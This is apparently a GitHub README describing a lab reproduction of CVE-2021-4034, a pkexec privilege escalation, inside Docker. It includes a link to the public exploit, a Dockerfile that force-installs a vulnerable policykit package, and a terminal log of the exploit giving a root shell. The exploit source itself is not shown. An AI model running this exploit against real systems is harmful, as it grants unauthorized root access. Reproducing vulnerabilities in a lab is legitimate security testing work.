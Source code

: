 # Test CVE-2021-4034 in a docker

## Original exploit
https://www.exploit-db.com/exploits/50689

## Links to deb files
https://launchpad.net/ubuntu/+source/policykit-1

## Setup

```bash
wget https://launchpad.net/ubuntu/+source/policykit-1/0.105-31/+build/21659401/+files/policykit-1_0.105-31_amd64.deb
```

## Dockerfile
```dockerfile
FROM ubuntu:jammy

RUN apt update
RUN apt install -y policykit-1
RUN adduser user
WORKDIR /home/user
ADD CVE2021-4034.tar.gz .

# install vulnerable deb file
ADD policykit-1_0.105-31_amd64.deb .
RUN dpkg --force-all -i policykit-1_0.105-31_amd64.deb

USER user
ENTRYPOINT [ "bash" ]
```

## Exploit
```bash
┌──(kali㉿kali)-[~/test/privescdock]
└─$ docker run --rm -it testpkexec
user@bc4803a951e9:~$ ls
Makefile  evil-so.c  evil.so  exploit  exploit.c  policykit-1_0.105-31_amd64.deb
user@bc4803a951e9:~$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root)
#    
```

